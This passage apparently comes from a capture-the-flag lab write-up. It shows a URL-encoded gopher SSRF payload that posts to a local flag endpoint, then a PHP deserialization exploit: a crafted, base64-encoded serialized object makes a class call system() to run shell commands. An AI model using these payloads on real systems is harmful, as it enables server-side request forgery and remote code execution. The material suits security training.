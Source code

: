     givemeflag=yes
    ```
    Transferred by [urlencode](https://www.urlencoder.org/) with `CRLF` type.
    Payload: `gopher://127.0.0.1:80/_POST%20%2Fflag.php%20HTTP%2F1.1%0d%0aHost%3A%20127.0.0.1%0d%0aContent-Length%3A%2014%0d%0aContent-Type%3A%20application%2Fx-www-form-urlencoded%0d%0a%0d%0agivemeflag%3Dyes%0d%0a`

4. Then we got flag...

## Lab-Magic Cat
Flag: `FLAG{magic_cat_pwnpwn}`

### 解題流程與思路
1. Test payload in local side
    ```bash!
    $ ./psysh
    > class Caster
    . {
    .     public $cast_func = 'intval';
    .     function cast($val)
    .     {
    .         return ($this->cast_func)($val);
    .     }
    . }
    > $test = new Caster
    = Caster {#2772
        +cast_func: "intval",
      }
    
    > $test->cast_func = 'system'
    = "system"
    > $test->cast('pwd')
    = "/home/sbk6401"
    ```
2. Construct serialized session
    ```bash!
    > class Cat
    . {
    .     public $magic;
    .     public $spell;
    .     function __construct($spell)
    .     {
    .         $this->spell = $spell;
    .         $this->magic = new Caster();
    .     }
    .     function __wakeup()
    .     {
    .         echo "Cat Wakeup!\n";
    .         $this->magic->cast($this->spell);
    .     }
    . }
    > $cat = new Cat("ls -al /")
    = Cat {#2771
        +magic: Caster {#2763
          +cast_func: "intval",
        },
        +spell: "ls -al /",
      }
    > $cat->magic->cast_func = "system"
    = "system"
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjg6ImxzIC1hbCAvIjt9"
    ```